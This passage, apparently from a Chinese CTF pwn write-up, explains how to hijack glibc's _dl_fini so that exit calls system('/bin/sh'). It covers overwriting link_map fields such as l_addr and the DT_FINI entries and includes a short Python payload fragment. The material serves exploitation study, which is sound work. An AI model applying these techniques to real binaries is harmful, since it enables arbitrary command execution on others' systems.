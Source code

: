 再通过`.`​来向写内容，`>`​来抬地址以此来循环写入

##### 解题思路：

> 控制`rdi(_rtld_global+2312)`​为`'/bin/sh\x00'`​
> 
> 控制`l->l_addr`​ + `l->l_info[DT_FINI]`​->`d_un.d_ptr`​最终指向`system`​
> 
> 控制`l->l_info[DT_FINI_ARRAY] = 0`​
> 
> 显式触发`exit`​函数调用`_dl_fini`​函数

##### 动态调试：

```plain
payload = b'@' + p32(argv0-0x10) + write(b'/bin/sh\x00') 
#argv0 = _rtld_global+2312 - mmap_base
#argv0 即_rtld_global+2312 与 mmap_base 的偏移
#设置 rdi = _rtld_global+2312 = '/bin/sh\x00'
```

[![](assets/1701612101-ff0250d1cb3a39d31d8e2319323ef64e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914100518-2757f424-52a3-1.png)

